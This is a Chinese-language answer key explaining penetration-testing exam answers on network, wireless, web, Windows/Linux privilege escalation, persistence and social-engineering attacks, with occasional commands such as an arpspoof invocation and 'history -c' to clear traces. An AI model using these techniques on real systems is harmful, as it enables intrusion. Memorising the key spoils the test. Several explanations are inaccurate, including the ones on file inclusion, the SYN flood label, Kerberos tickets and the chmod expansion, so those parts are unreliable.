### 81. A
在 `SSL` 剥离攻击中，用户向 Web 服务器发送 `HTTPS` 请求。这是为了确保服务器和浏览器之间的通信是加密的。然而，利用会欺骗 Web 服务器使其认为用户想要标准的 `HTTP` 连接，并建立未加密的会话。除非用户仔细观察，否则用户可能意识不到这种情况的发生。

### 82. C
防御 `SSL` 剥离攻击的最佳方法是实施 `HTTP` 严格传输安全 (`HSTS`) 策略，该策略会阻止用户的浏览器在未使用 `HTTPS` 连接从 Web 服务器向客户端传输页面时打开网页。

### 83. B
在此示例中，发生了降级中间人攻击，因为 `SSL` 2.0 比 `TLS` 1.2 更不安全。除非用户异常警惕，否则他们很可能不会注意到 `SSL` 而不是 `TLS` 被用来保护会话。

### 84. A
通过发送虚假的 `ARP` 消息，测试人员的工作站可以通过将服务器的 IP 地址与她工作站的 `MAC` 地址关联，使客户端工作站误以为它是 Web 服务器。同样，通过做同样的事情，向服务器发送虚假的 `ARP` 消息，将客户端的 IP 地址映射到她工作站的 `MAC` 地址，服务器也会被欺骗认为她的工作站是最终用户的工作站。

### 85. A
通过向服务器发送大量从未完成的半开 `TCP` 连接，测试人员使其没有足够的资源来处理合法的网络请求。因为只使用了一台主机进行压力测试，所以这是一个标准的拒绝服务 (`DoS`) 攻击的例子。

### 86. B
通过向路由器发送大量虚假的 `ICMP` 流量，测试人员使路由器难以处理合法的网络请求。因为使用了多台主机进行压力测试，所以这是一个标准的分布式拒绝服务 (`DDoS`) 攻击的例子。


# 安全概念

### 87. A.
网络访问控制 (`NAC`) 系统要求网络主机在被允许访问网络之前满足安全策略要求，即使它们已正确连接到网络插孔或关联到接入点。未经授权或不健康的设备通常会被放置在隔离的修复网络上，直到它们获得授权或达到合规状态。完成此操作后，它们将被允许连接到实际的网络段。

### 88. B.
一种进行 `NAC` 绕过攻击的方法是使用授权设备的 `MAC` 地址对测试者的系统进行伪造。只要测试者的系统满足组织的安全策略要求，`NAC` 系统就应该允许其访问生产网络。

### 89. D and E.
`VoIP` 电话和 `SCADA` 设备通常无法以允许其满足 `NAC` 系统安全策略要求的方式进行配置。例如，你通常无法在 `VoIP` 电话或 `SCADA` 设备上安装反恶意软件。因此，这些系统通常在 `NAC` 实施中被列入白名单，允许它们绕过适用于其他系统的要求。

### 90. A.
`VLAN` 标签的双标签在 `802.1q` 规范中是允许的。这允许主机在 `VLAN` 之间“跳跃”。

### 91. C.
这是一个用于 `VLAN` 跳跃的交换机欺骗攻击的示例。在交换机欺骗攻击中，测试者的网络板被重新配置以模拟网络交换机上的中继端口。通过这样做，真正的交换机将认为需要将所有 `VLAN` 的流量转发到测试者的设备。

### 92. A.
在 Karma 攻击中，测试者使用特殊的无线设备监听其他设备发出的 `SSID` 请求，然后响应为所请求的接入点。受害者认为他们已连接到合法网络，但实际上他们是直接连接到测试者。测试者通常会将受害者的流量转发到互联网，因此一切看起来都很正常。这允许测试者检查受害者的流量并捕获敏感信息。

### 93. B and C.
在典型的恶意双胞胎攻击中，测试者首先进行去认证攻击，将受害者的无线设备从真实网络断开。然后这些设备会自动重新连接到测试者的无线接入点，该接入点配置了与目标组织相同的 `SSID`。测试者可能会提高恶意双胞胎无线电的增益，因为大多数无线网络接口会默认连接到信号最强的接入点。

### 94. D.
在碎片化无线攻击中，从捕获的数据包中提取少量密钥材料。然后，向接入点发送包含已知内容的 `ARP` 数据包。如果数据包被 `AP` 回显，则可以从返回的数据包中获得更多密钥信息。如果重复此过程，整个无线密钥可能会暴露。

### 95. B.
在凭证收割攻击中，使用看起来像合法网站的假网站来捕获受害者的用户名和密码。在无线攻击的上下文中，这可以通过使用看起来像合法捕获门户的假捕获门户来实现，该门户捕获受害者的信息。

### 96. D.
许多无线设备使用 Wi-Fi 保护设置 (`WPS`) 系统来简化无线网络的连接。然而，大多数 `WPS` 实现存在一个关键弱点，即它们使用简单的八位数字 PIN 来对无线设备进行身份验证。由于其长度较短，PIN 可以被相当快地破解，从而允许渗透测试人员轻松连接到目标无线网络。

### 97. C.
在蓝牙劫持无线攻击中，未经请求的邮件通过 `Bluetooth` 连接发送到无线设备，例如手机。

### 98. B.
在蓝牙窃取无线攻击中，与无线设备（如手机）建立未经授权的 `Bluetooth` 连接。然后使用该连接从该设备窃取信息。

### 99. D.
在 `RFID` 克隆中，渗透测试人员捕获合法 `RFID` 设备上的 `RFID` 签名，然后将其复制到假设备上。这通常用于复制 `RFID` 访问徽章。

### 100. D.
在干扰攻击中，渗透测试人员在 2.4 GHz 和/或 5 GHz 频率范围内传输足够强大的无线电信号以干扰合法的无线信号。这种干扰阻止用户使用无线网络。因此，该攻击可被归类为网络压力测试或拒绝服务攻击。

### 101. B.
在中继攻击中，渗透测试人员捕获目标组织的无线网络无线电信号并以高增益重新广播以扩展其范围。在这种情况下，组织的无线网络现在可以由渗透测试人员从停车场访问。

### 102. A.
这是一个 `SQL` 注入攻击的示例。测试者不是在密码字段中输入密码，而是插入一条 `SQL` 语句。如果此示例中的 Web 应用程序编写不佳，则可能拉取假设数据库中每个用户的用户名和密码。`UNION SELECT` 语句用于组合两个不相关的 `SELECT` 查询以从不同的数据库表中检索数据。编写良好的应用程序将使用输入验证来防止在用户表单中提交 `SQL` 语句。相同的原则适用于 `HTML` 注入、命令注入和代码注入攻击。

### 103. A.
这是一个凭证暴力破解攻击的示例。在真正的暴力破解攻击中，所有可能的字母、数字和特殊字符组合将被一个接一个地尝试，直到找到正确的组合。然而，通过根据用户的个人兴趣创建可能的密码列表，成功的概率大大增加。

### 104. B.
这是一个会话劫持的示例。测试者能够利用会话密钥（`cookie`）来访问用户的会话。此类攻击可用于 Web 应用程序，其中 `HTTP` `cookie` 用于维护会话。即使站点可能已使用 `TLS/SSL` 对身份验证凭据进行加密，会话 `cookie` 很多时候并未加密。如果被捕获，它允许测试者劫持用户的会话。

### 105. C.
这是一个重定向攻击的示例，因为用户被钓鱼邮件重定向到假网站。

### 106. C.
这是一个默认凭据攻击的示例。大多数网络设备，包括接入点、路由器、防火墙等，出厂时都预先配置了默认的管理员凭据。这些默认值在互联网上记录得很详细。如果管理员忘记更改它们，则测试者可以使用它们获得对设备的管理员访问权限。

### 107. A.
该设备容易受到弱凭据攻击，因为管理员用户名和密码很容易猜到。

### 108. D.
这是一个 `Kerberos` 攻击的示例。接收到票据授予票据 (`TGT`) 允许用户获得额外的票据授予服务 (`TGS`) 票据，这些票据授予对特定网络服务的访问权限。由于它允许用户获取其他 `TGS` 票据，`TGT` 有时被称为 `golden ticket`。由于 `TGS` 票据只能用于访问特定网络服务，有时被称为 `silver ticket`。

### 109. A and B.
在参数污染攻击和不安全直接对象引用攻击中，渗透测试人员修改 `HTTP` 请求中的参数以获得未经授权的信息访问权限。例如，在对 Web 应用程序进行身份验证后，测试者可以修改 URL 中的 `/search?q=` 参数，以诱骗应用程序提供用户账户不应能够查看的信息。


# 安全评估项目

### 110. D.
在 `DOM XSS` 攻击中，攻击者利用受害者网页浏览器的弱点。通常，过时的浏览器最容易受到这种攻击的影响。这被认为是一种客户端 XSS 攻击。

### 111. A and B.
`stored/persistent` 和 `reflected XSS` 攻击都被视为服务器端攻击，因为恶意脚本嵌入在服务器上。当用户查看网页时，恶意脚本会运行，使攻击者能够捕获信息或执行其他操作。

### 112. B.
这是一个跨站请求伪造（`CSRF`）的示例。因为网站的会话 cookie 已保存在本地，用户会永久登录到该站点。因此，电子邮件中包含的用于更改用户密码的 `HTTP` 请求无需身份验证即可执行。渗透测试人员现在可以以高级员工身份登录到 `Active Directory`。

### 113. C.
在 `clickjacking` 攻击中，测试人员会在网页上添加透明层，试图诱使用户点击透明层上的隐藏按钮或链接。这使测试人员能够劫持用户点击并将其发送到不同的网站（例如凭证收集站点）。

### 114. A.
如果在 Web 服务器的配置中允许了目录遍历，则它可能会将 Web 服务器的文件系统暴露给通过 Web 浏览器访问该站点的用户，包括 Web 服务器根目录之外的目录。例如，`Apache` Web 服务器可以运行在 `chroot` jail 中，以防止用户访问 Web 服务器目录之外的目录。

### 115. B.
Cookie 操作是一种客户端安全配置错误，允许在浏览器中运行的脚本向客户端 cookie 写入数据。

### 116. C and E.
文件包含是一种攻击，允许测试人员将文件（通常包含恶意代码）上传到 Web 应用程序。文件可以是本地的，也可以位于远程网站上。这实际上是一种注入攻击形式，就像任何注入攻击一样，Web 应用程序开发人员的 `input validation` 是防止它的关键。

### 117. A and E.
虽然对应用程序的 `source code` 进行注释是程序员的最佳实践，但它也可能造成安全漏洞，因为它为查看源代码的攻击者（或渗透测试人员）提供了有关应用程序工作原理的广泛信息。同样，提供过于详细的 `error messages` 在编程应用程序时可能是最佳实践，但在发布的应用程序中保留它们可能会为攻击者提供有价值的信息。

### 118. C and D.
程序员应确保包含例程，告诉应用程序在遇到错误条件时该怎么做。例如，许多 `buffer overflow` 攻击利用的是在收到超出预期信息时不知道如何响应的应用程序。同样，所有应用程序都应对其代码进行 `digitally signed`。这将暴露对代码所做的任何未经授权的修改。

### 119. D.
此场景中的程序员使用了硬编码凭据。如果攻击者（或渗透测试人员）查看应用程序的 `source code`，他们将可以访问数据库身份验证凭据。

### 120. C.
此场景中的程序员在 `HTML` 代码中使用了隐藏元素。这是一种不安全的编码实践，可能导致敏感信息存储在用户的浏览器中（`DOM`）。

### 121. A.
了解与特定操作系统版本相关的漏洞的有效方法是查阅通用漏洞和暴露（`CVE`）数据库。CVE 数据库可以通过 [`cve.mitre.org`](http://cve.mitre.org) 访问。它包含一份公开已知的网络安全漏洞清单。每当供应商发现其产品存在漏洞时，他们就会在 CVE 数据库中添加一个条目。该数据库包含 Windows、Mac OS、Linux、UNIX、Android 和 iOS 操作系统的漏洞信息。

### 122. C and D.
`FTP` 和 `Telnet` 被认为是不安全的服务和协议。这是因为它们以 `clear text` 的形式在网络上传输数据，包括身份验证凭据。此信息可使用 `packet sniffer` 轻松捕获。

### 123. A and D.
虽然 `SSHv1` 使用加密的数据传输，但它被认为不如 `SSHv2` 安全。然而，许多较旧的 Linux 或 UNIX 系统仍可能配置为使用 SSHv1。同样，`TLS 1.2` 被认为比 `SSL 2.0` 更安全。

### 124. B and C.
在 Linux 上为可执行文件分配 `SUID` 权限允许它以文件所有者的权限运行。如果所有者是 `root` 用户，则它将以 root 的超级用户权限执行。同样，为可执行文件分配 `SGID` 权限允许它以拥有组权限运行。如果拥有组是 root 组，则它将以 root 组的权限运行。

### 125. C.
当 `sticky bit` 权限分配给 Linux 系统上的目录时，用户只能删除他们拥有权限的目录中的文件，即使他们对该目录具有写和执行权限。

### 126. A.
在 Linux 上，标准用户可以使用 `sudo` 程序提升权限并以 `root` 用户（或系统上的任何其他用户，如有需要）身份运行可执行文件。

### 127. C.
在 Linux 系统上，`Ret2libc` 攻击会导致子例程的返回地址被替换为已存在于进程内存中的子例程的地址。

### 128. A.
在 Windows 系统上，`cPassword` 是存储组策略首选项项中密码的属性名称。每当首选项需要保存用户的密码时，它都会以加密格式存储在此属性中。然而，密码可以被域中任何经过身份验证的用户轻松解密。

### 129. B.
您应建议他们使用端口 636 上的 `LDAPS` 来管理用户帐户。LDAPS 使用 `SSL` 保护。标准端口 389 上的 `LDAP` 以 `clear text` 的形式在网络上传输数据。这意味着您提交以访问目录服务本身的管理用户凭据以及正在管理的用户的任何凭据都将以明文形式传输。

### 130. B.
此场景中的渗透测试人员正在使用 `Kerberoasting` 攻击。任何有效的域用户都可以请求已注册服务的 `SPN`。由此收到的 `Kerberos` 票证可以离线破解，可能暴露服务帐户密码。这可以允许权限提升，因为服务帐户通常具有对本地服务器的管理员级权限。

### 131. A.
本地安全机构子系统服务（`LSASS`）是在 Windows 系统上运行的进程，用于强制执行系统上的安全策略。它验证登录系统的用户，管理用户密码更改，创建访问令牌，并在安全日志中创建条目。

### 132. A.
使用预启动执行环境（`PXE`）通过网络运行无人值守安装可能会导致身份验证凭据以 `clear text` 的形式传输。在无人值守安装期间，会使用一个名为 `answers file` 的特殊文件来自动化安装过程。如果 answers file 包含在安装期间要在系统上创建的用户帐户信息，则该信息将以明文形式传输。

### 133. D.
Windows 系统上的 `SAM` 数据库包含本地帐户的哈希密码。默认情况下位于 `C:\\Windows\\System32\\config\\`。如果可以复制此文件，则可以使用 Internet 上可用的多种工具对其进行破解，以暴露其中包含的密码。


# 渗透测试解释

### 134. D.
这是一个 `DLL` 劫持攻击的示例。恶意的 `DLL` 很可能包含原始 `DLL` 相同的函数，使依赖它的应用程序能够正常运行。然而，它也可能包含在 `DLL` 被加载时执行的恶意代码。

### 135. A 和 B.
使用未加引号的服务路径是 Windows 系统上服务被利用的一种方式。通过不对服务路径加引号，目录名中的任何空格都不会被正确处理，并可能导致恶意服务可执行文件被故意放置在由此产生的未加引号的目录路径中，从而代替正确的服务可执行文件被加载。此外，可写的服务可执行文件可以被具有相同文件名的恶意可执行文件替换。

### 136. C.
要实施 `DLL` 劫持攻击，渗透测试人员需要对目标文件系统具有读写权限。使用不安全的文件和文件夹权限可以使此任务更容易完成。

### 137. A 和 D.
`DLL` 劫持和计划任务都可以帮助在 Windows 系统上保持攻击的持久性。`DLL` 劫持会导致恶意 `DLL` 中包含的攻击在每次启动关联应用程序时都被加载。使用计划任务可确保攻击定期运行。

### 138. B.
系统管理员对抗内核攻击的最佳防御措施是使用厂商提供的最新补丁保持操作系统更新。通用漏洞和暴露（`CVE`）数据库包含已知 Windows、Mac OS、Linux、UNIX、Android 和 iOS 操作系统内核的漏洞信息。

### 139. C.
在此场景中，渗透测试人员利用了防火墙管理员未能修改防火墙设备上默认账户设置的情况。大多数网络设备，包括接入点、路由器、防火墙等，出厂时都预先配置了默认的管理员凭据。这些默认账户设置在互联网上都有详细记录。如果管理员忘记更改它们，那么测试人员就可以使用它们获得对设备的管理员访问权限。

### 140. B、C 和 D。
Shell 升级、VM 转义和容器转义都是沙箱逃逸攻击的示例。

### 141. A.
测试人员实施了冷启动攻击。通过从闪存驱动器启动到 Linux，她能够绕过许多 Windows 安全机制并访问关键文件。

### 142. D.
`JTAG` 端口由一些制造商在主板中实现，用于诊断和测试目的。凭借合适的设备，渗透测试人员可以连接到此端口并直接从正在运行的主板捕获数据。

### 143. B.
网络设备上启用串行控制台连接相关的风险在于网络管理员往往不会对其进行适当保护。由于它们只能通过直接点对点连接访问，因此他们不会将其配置为需要身份验证。利用冒充，这使得渗透测试人员只要能够获得物理访问权限，就很容易访问设备。

### 144. A.
远程过程调用（`RPC`）/分布式组件对象模型（`DCOM`）用于 Windows 系统，允许您在不同的 Windows 系统上远程执行代码。

### 145. A.
`PsExec` 是一个命令行实用程序，默认安装在 Windows 系统上，可让您在其他 Windows 系统上交互式执行进程。

### 146. C.
`Windows Management Instrumentation` 是 Microsoft 提供的用于通过网络连接集中管理 Windows 系统的基础架构。

### 147. C 和 D.
`PowerShell` (`PS`) Remoting 允许您在网络环境中的其他 Windows 系统上远程运行 `PowerShell` cmdlet。`Windows Remote Management` (`WinRM`) 是一种系统，允许 Windows 管理员使用 `WS Management` 协议管理远程系统。

### 148. B.
`Remote Desktop Protocol` (`RDP`) 用于在 Windows 系统上通过网络连接将远程 Windows 主机的图形桌面显示在本地系统上。它提供完整的点按交互性。它甚至可用于将声音从远程系统传输到本地系统并在系统之间共享文件。

### 149. C.
`Apple Remote Desktop` (`ARD`) 可用于通过网络连接使用图形用户界面远程管理 Macintosh 系统。

### 150. A.
`Virtual Network Computing` (`VNC`) 连接可用于通过网络连接使用图形用户界面远程管理 Windows、Macintosh 或 Linux 系统，只要在本地和远程系统上都安装了必要的软件。

### 151. A.
`X11` 转发可用于通过网络连接使用图形用户界面远程管理 Linux 系统。

### 152. C.
在进行渗透测试时，应避免使用 `Telnet`、`rlogin` 和 `rsh` 等实用程序，因为它们通过网络以明文形式传输数据。这使得防御者在测试期间更容易看到你在做什么，你很可能会被发现。

### 153. B.
在涉及 Linux 系统的渗透测试期间，可用于建立持久性的一种技术是使用 `cron` 安排作业以运行利用脚本或启动守护进程。这可确保在你离开系统后，这些作业无需干预即可自动发生。

### 154. B 和 C.
在图形环境中，您可以使用 `Task Scheduler` 自动运行任务（例如利用可执行文件或服务），而无需您的干预。您也可以从命令提示符使用 `at` 命令来实现同样的目的。

### 155. B.
`Trojan` 是一种恶意软件类型，它提供有用的功能，但在运行时会秘密执行恶意操作。例如，它可能提供用户喜欢玩的有趣游戏。然而，在后台，它可能正在运行键盘记录器、创建后门，甚至使系统成为僵尸网络中的僵尸。

### 156. A 和 B.
为了确保入侵的持久性，您可以为系统创建后门或为自己创建用户账户。

### 157. C 和 D.
在掩盖痕迹的过程中，您应考虑采取诸如删除或隐藏您复制到系统中的任何文件的行动。您还可以考虑修改在您入侵系统时创建的任何日志条目。然而，在修改日志文件时，有两点需要注意。首先，确保渗透测试的工作范围允许您修改日志文件。有时不允许。其次，您不应删除所有日志条目。这将是向防御者表明您已入侵系统的明显迹象。

### 158. C.
`Chkconfig` 是用于管理服务将在哪个运行级别运行的工具。`Chkconfig` 可用于查看或更改服务的运行级别。使用 `chkconfig --del <servicename>` 将使命名服务在当前运行级别下不运行，并将移除持久性。

### 159. C.
`reg save` 将注册表的指定子项、条目和值的副本保存到指定文件中。具有 `.reg` 文件扩展名的文件是 Windows 注册表使用的注册文件。这些文件可以包含注册表配置单元、键和值。

### 160. A.
在此场景中，渗透测试人员需要收到客户无线设备使用的频段和频率才能继续进行无线渗透测试。无线设备可能在多个频段和频率上运行，了解确切的频段和频率将使渗透测试人员能够按要求进行无线渗透测试。


### 161. A.
钓鱼攻击针对敏感信息，例如密码、用户名或信用卡信息。 spear phishing 针对特定个人而非更广泛的群体。 SMS 钓鱼（或 smishing）是通过短信进行的钓鱼。 SMS 代表 Short Message Service。 它是通过手机发送和接收短信或短电子邮件的一种方式。 SMS 攻击是通过短信欺骗个人或诱使其访问假网站并输入个人信息来获取个人信息的尝试。 在此场景中，您希望针对某一个特定个人而不是一个群体。

### 162. D.
在此场景中，由于您试图对公司员工执行 OSINT，最好的做法是向员工发送伪造的电子邮件，以查看他们是否会回复敏感信息。 渗透测试人员需要在规则允许且包含在工作范围内时，准备好在其测试计划中纳入社会工程学。

### 163. D.
使用 `reg add` 会在注册表中添加新的子项或条目。 语法如下： `reg add <KeyName> /v <ValueName> /t <DataType> /d <Data>`

* `KeyName` 指定要添加的子项或条目的完整路径。
* `/v <ValueName>` 指定要在指定子项下添加的注册表项名称。
* `/t <DataType>` 指定注册表项的类型。
* `/d <Data>` 指定新注册表项的数据。
* 渗透测试人员通常专注于使用最容易的攻击向量来实现目标。 一种常见的攻击方法是名为 `Mimikatz` 的工具。 它可以从受损 Windows 系统的内存中窃取明文凭据。 当 `WDigest` 身份验证协议启用时，明文密码会存储在本地安全机构子系统服务（`LSASS`）中，使其暴露于窃取。 `WDigest` 在 Windows 10 中默认处于禁用状态。

### 164. C.
降级攻击是一种攻击形式，测试人员强制网络通道切换到更不安全或未受保护的数据传输标准。 降级协议是中间人类型攻击的一个组成部分，用于拦截加密流量。 降级攻击通过使客户端和服务器使用安全性较低的协议来实现。 在此场景中，由于您试图捕获所有未加密的网络流量，您希望实施 `HTTP` 降级攻击。

### 165. A.
`TCP SYN flood`（也称为 `SYN flood`）是一种拒绝服务（`DDoS`）攻击形式，测试人员向目标系统发送一系列 `SYN` 请求，试图消耗足够的服务器资源，使系统无法响应真实流量。 这利用了正常的 `TCP` 三次握手的一部分，并消耗目标服务器的资源，使其无法响应。

### 166. A.
在跨站脚本（`XSS`）攻击中，攻击者在网站上嵌入脚本命令，这些命令稍后将被访问该网站的毫无防备的访客执行。 其目的是诱骗访问受信任网站的用户执行由不受信任的第三方放置的恶意代码。 在此场景中，攻击者开发了一个应用程序，针对网络浏览器并在过程中允许访问用户的银行信息，窃取资金并将其转移到另一个账户。

### 167. A.
社会工程学针对的是人而不是计算机，并依赖个人或团体违反安全程序、政策和规则。 社会工程学可以面对面、通过电话、短信或电子邮件进行。 在此场景中，攻击者使用了社会工程学中的权威原则。 权威遵循人们倾向于服从权威人物的信念，即使被要求执行令人反感的行为。

### 168. D.
存储型跨站脚本（`XSS`）是最危险的跨站脚本类型。 允许用户存储数据的 Web 应用程序可能暴露于此类攻击。 存储型 `XSS` 发生在 Web 应用程序收集可能具有恶意的用户输入，然后将该输入存储在数据存储中以供以后使用时

### 169. D.
`ARP` 欺骗是一种技术，攻击者向局域网发送（伪造的）地址解析协议（`ARP`）消息。 通常，目标是将攻击者的媒体访问控制（`MAC`）地址与另一台主机的 `IP` 地址关联，例如默认网关，导致任何发往该 `IP` 地址的流量都被发送到攻击者。 `ARP` 欺骗可能允许攻击者拦截网络上的数据帧、修改流量或停止所有流量。

### 170. C.
中间人攻击拦截两个系统之间的通信。 `ARP` 代表地址解析协议，它允许网络将 `IP` 地址翻译成 `MAC` 地址。 在此场景中，攻击者想要执行中间人攻击； 它是通过执行 `arpspoof -t <victimIP> <gatewayIP>` 来完成的。 `-t` 开关指定要进行 ARP 毒化的特定主机。

### 171. C.
网络抓取自动提取数据并以测试人员易于理解的格式呈现。 在此场景中，`Python` 被用作抓取语言，与一个名为 `BeautifulSoup` 的强大库相比。 `BeautifulSoup` 是用于解析 `HTML` 和 `XML` 文档的 `Python` 包。 它为解析后的页面创建解析树，可用于从 `HTML` 中提取数据，这对网络抓取很有用。 Beautiful Soup 帮助测试人员从网页中提取特定内容，删除 `HTML` 标记并保存信息。 它是用于网络抓取的工具，有助于清理和解析从网络下载的文档。

### 172. A.
点击劫持是指测试人员使用多层透明层诱使用户点击另一个页面上的按钮或链接，而用户本意是点击顶层页面。 测试人员正在“劫持”点击并将其路由到另一个页面。 在网络浏览器中，点击劫持是浏览器安全问题，是各种浏览器和平台的漏洞。 点击劫持采取嵌入式代码或脚本的形式，可以在用户不知情的情况下执行，例如点击一个看似执行其他功能的按钮。

### 173. C.
锁绕过就是这样。 在不撬锁的情况下绕过锁。 在此场景中，测试人员正在尝试使用门底工具进行物理安全评估，该工具从门下伸入并从内部拉开门把手。

### 174. B.
`HTML` 中的表单可以在 `<form>` 元素中使用 `method="POST"` 或 `method="GET"`（默认）。 指定的方法决定了表单数据如何提交到服务器。 使用 `GET`，参数会保留在浏览器历史记录中，因为它们成为 `URL` 的一部分。 使用 `POST`，参数不会保存在浏览器历史记录中。 与 `POST` 相比，`GET` 安全性较低，因为发送的数据是 `URL` 的一部分。

### 175. A.
社会工程学针对的是人而不是计算机，并依赖个人或团体违反安全程序、政策和规则。 社会工程学可以面对面、通过电话、短信或电子邮件进行。 在此场景中，攻击者正在使用社会工程学中的权威原则。 他们希望 CFO 收到 CEO 的电子邮件后不会提出任何问题，转账就会进行。 权威遵循人们倾向于服从权威人物的信念，即使被要求执行令人反感的行为。

### 176. D.
`Kerberoasting` 是一种依赖于请求服务账户服务主体名称（`SPNs`）的服务票据的技术。 票据使用与 `SPN` 关联的服务账户密码进行加密，这意味着一旦测试人员使用 `Mimikatz` 等工具获取了服务票据，测试人员就可以使用离线破解工具破解票据以获取服务账户密码。 `Kerberoasting` 是一个四步过程：


# 渗透测试笔记

## 服务票据提取流程
1. 扫描 Active Directory，查找已设置服务主体名称（`SPNs`）的用户账户。
2. 使用 `SPNs` 请求服务票据。
3. 从内存中提取服务票据并保存到文件中。
4. 对服务票据中的密码进行离线暴力破解攻击。

## 发现

### 177. C.
如果测试人员可以访问 Windows 工作站或服务器，则可以使用 `PowerSploit`，它提供了维护持久性并进行进一步侦察所需的工具包。测试将希望利用 `HKEY_CURRENT_USER` 注册表配置单元。`HKEY_CURRENT_USER` 配置单元仅 meant to be 可供当前登录用户使用。因此，当不同的 Windows 用户登录系统时，会加载 `HKEY_CURRENT_USER` 注册表配置单元的另一个副本。用户注销时，`HKEY_CURRENT_USER` 注册表配置单元会本地保存为文件 `NTUSER.DAT` 或 `USER.DAT`。此注册表配置单元可以在 `Notepad` 中打开，并且可以轻松找到加密的登录 ID 和密码。如果用户具有漫游配置文件，则 `NTUSER.DAT` 文件将保存在用户登录过的每台工作站上。

### 178. A.
Wi-Fi Protected Access 2 – 预共享密钥（`WPA2-PSK`）是一种使用 WPA2 并采用可选预共享密钥（PSK）身份验证来保护网络的方法。要使用 `WPA2-PSK` 加密网络，您需要为路由器提供一个长度在 8 到 63 个字符之间的纯英文密码短语。Wi-Fi 去认证攻击是一种针对用户与 Wi-Fi 无线接入点之间通信的拒绝服务攻击类型。测试人员可以随时向无线接入点发送去认证帧，并使用受害者的伪造地址。

### 179. C.
`PsExec` 是一款专为允许渗透测试人员通过端口 `445` 上的 `SMB` 在远程系统上运行程序而设计的工具。这使其成为极其有用的工具。`PsExec`’s 远程运行进程的能力要求本地和远程计算机均已启用文件和打印共享（即 `Workstation` 和 `Server` 服务）以及默认的 `Admin$` 共享，该共享是一个映射到 `\\windows` 目录的隐藏共享。

### 180. B.
`chmod` 是一个命令和系统调用，用于更改文件系统对象（文件和目录）的访问权限。`chmod 4111` (`chmod a+rwx,u-rw,g-rw, o-rw,ug+s,+t,g-s,-t`) 设置权限，使 (U)ser / 所有者不能读取、不能写入，但可以执行。(G)roup 不能读取、不能写入，但可以执行。(O)thers 不能读取、不能写入，但可以执行。`sudo` 是 Unix-like 计算机操作系统的程序，允许用户以另一用户的权限运行程序，默认情况下为超级用户。在此场景中。命令 `chmod 4111 /usr/bin/sudo` 将错误配置 `sudo`。

### 181. D.
主体备用名称（`SAN`）是对 `X.509` 的扩展，允许使用 `subjectAltName` 字段将各种值与安全证书关联。这些值称为 `SANs`，包括电子邮件地址、IP 地址、URL、DNS 名称、目录名称以及其他名称后跟值。使用 `SAN` 提供扩展的站点验证。

### 182. B.
在此场景中，`..` 操作符是明显的迹象，表明攻击者试图进行目录遍历攻击。此特定攻击试图突破 Web 服务器的根目录并访问服务器上的 `/etc/passwd` 文件。目录遍历攻击是一种 `HTTP` 攻击，允许攻击者访问受限目录并在 Web 服务器根目录之外执行命令。

### 183. A.
中间人攻击发生在第三方实体拦截两个方之间的通信时。中间人攻击是一种常见的网络安全攻击类型，允许攻击者窃听两个目标之间的通信。攻击发生在两个合法通信的主机之间，使攻击者能够“监听”对话。

### 184. B.
`bash` 历史记录保存了测试人员在 Linux 命令行上执行的所有命令的记录。这允许测试人员通过使用上下箭头键滚动命令历史文件来轻松运行先前执行的命令。从 Linux 终端中删除命令行历史记录的主要原因是防止其他用户使用测试人员的先前命令。要删除或清除 bash 历史记录中的所有条目，请使用 `history` 命令与 `-c` 选项：
```
$ history -c
```

### 185. A.
冒充涉及伪装成另一个人以获得设施或资源的访问权限。这可能简单到声称自己是员工，也可能复杂到穿着制服并出示假公司 ID。在此场景中，攻击者冒充员工给帮助台技术人员打电话。

### 186. E and F.
鉴于此场景，客户将希望对 SQL 语句使用黑名单和白名单验证。`SQL` 注入是一种常见的攻击途径，使用恶意的 `SQL` 代码进行后端数据库操作以访问本不打算显示的信息。`SQL` 注入是最常见的 Web 黑客技术之一。黑名单验证将外部输入与一组已知恶意输入进行测试。白名单验证将外部输入与一组已知、已批准的输入进行测试。使用白名单输入验证，应用程序确切知道需要什么并拒绝其他输入。

### 187. D.
`pty` 模块允许渗透测试人员生成一个伪终端，可以欺骗像 `su` 这样的命令使其认为它们在适当的终端中执行。要升级 shell，只需运行所示命令。`su` 是一个 Unix 命令，代表 substitute user。它被计算机用户用来以另一个用户账户的权限执行命令。执行时，它会调用一个 shell，而不会更改当前工作目录或用户环境。

### 188. C.
搭便车攻击依赖于尾随员工通过安全门或其他入口进入。更高安全性的组织可能会使用单人门来防止搭便车和尾随。正确实施的单人门一次只允许一个人通过，并且该人必须解锁两扇门，其中一次只能解锁并打开一扇门。

### 189. C.
社会工程工具包（`SET`）提供了一个用于自动化社会工程流程的框架，包括发送 spear phishing 消息、托管假网站和收集凭据。社会工程在许多攻击中发挥着重要作用。`SET` 是一个菜单驱动的社会工程攻击系统。在此场景中，渗透测试人员正在尝试 spear phishing 攻击。

### 190. B.
链路本地多播名称解析（`LLMNR`）和 NetBIOS 名称服务（`NetBIOS-NS`）中毒可以使渗透测试人员获得中间人位置的能力，扩大其获取访问权限和信息的能力。Windows 网络中最常被针对的服务之一是 `NetBIOS`。`NetBIOS` 通常用于文件共享。

### 191. C.
在寻求访问主机、系统或应用程序时，第一步之一是枚举用户名。一旦猜出用户名，就可以尝试有针对性的基于密码的攻击。`RID` 循环攻击尝试通过空会话枚举用户账户。如果测试人员指定了密码文件，它将在枚举完成后自动尝试暴力破解用户账户。因此，在此场景中，尝试 `RID` 循环将是测试人员应尝试的下一步。

### 192. A.
通过徽章克隆，测试人员可以克隆员工的徽章以进入设施。最常见的技术之一是克隆射频识别（`RFID`）标签。鉴于在工作时间和非工作时间都试图获得访问权限的此场景，徽章克隆是最好的选择。


## 问题 193-200

### 193. C. Vishing（语音钓鱼）是通过电话系统进行的社会工程学。钓鱼攻击针对的是密码、用户名或信用卡信息等敏感信息。Vishing 的工作方式与钓鱼类似，但使用语音技术进行。Vishing 攻击可通过语音邮件、语音 over IP（VoIP）或固定电话或移动电话进行。在此场景中，由于 CEO 正在接听电话，这是一次 vishing 攻击。

### 194. D. 权限提升攻击通常分为两大类型：垂直和水平。垂直提升攻击侧重于测试人员获得更高权限。水平提升攻击横向移动到具有相同权限级别的其他账户或服务。未加引号的服务路径是 Windows 中的一个漏洞。当服务启动时，Windows 会尝试定位它。通常服务会用引号明确定义。但是，有时服务路径可能包含空格或未被引号包围。测试人员可以利用未加引号的服务路径来提升权限。

### 195. C. Bluejacking 是指攻击者通过蓝牙设备发送未经请求的邮件。Bluejacking 是一种黑客方法，允许个人在一定半径范围内向启用蓝牙的设备发送匿名消息。首先，黑客使用启用蓝牙的设备扫描周围环境，搜索其他设备。然后黑客向检测到的设备发送未经请求的邮件。

